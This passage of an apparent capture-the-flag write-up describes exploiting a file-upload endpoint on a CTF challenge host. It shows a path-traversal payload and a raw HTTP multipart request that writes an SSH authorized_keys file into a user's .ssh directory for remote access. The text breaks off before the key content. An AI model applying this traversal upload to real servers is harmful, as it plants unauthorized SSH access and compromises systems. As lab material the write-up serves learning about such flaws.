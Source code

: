 ```http
path=/../../../../home/user/&name=.ssh
```

![](attachment/3343ff53808bf56b5f507cafad584d69.png)

Upload random files to capture a valid upload request

![](attachment/e14d9192f2c78aca518540d52b53518f.png)

Now upload our `ssh` public key to `/home/user/authorized_keys`

```http
POST /api/upload HTTP/1.1
Host: challenge.ctf.games:31377
Content-Length: 881
X-Token: 1d49c64e3b24ba313d08fd899f8c5424
X-Cid: bPlNFG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryaA4JfpvW4fbJslmo
Accept: */*
Origin: http://challenge.ctf.games:31377
Referer: http://challenge.ctf.games:31377/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: USERNAME=admin; CID=bPlNFG; TOKEN=1d49c64e3b24ba313d08fd899f8c5424
dnt: 1
sec-gpc: 1
Connection: close

------WebKitFormBoundaryaA4JfpvW4fbJslmo
Content-Disposition: form-data; name="path"

/../../../../../../home/user/.ssh
------WebKitFormBoundaryaA4JfpvW4fbJslmo
Content-Disposition: form-data; name="file"; filename="authorized_keys"
```
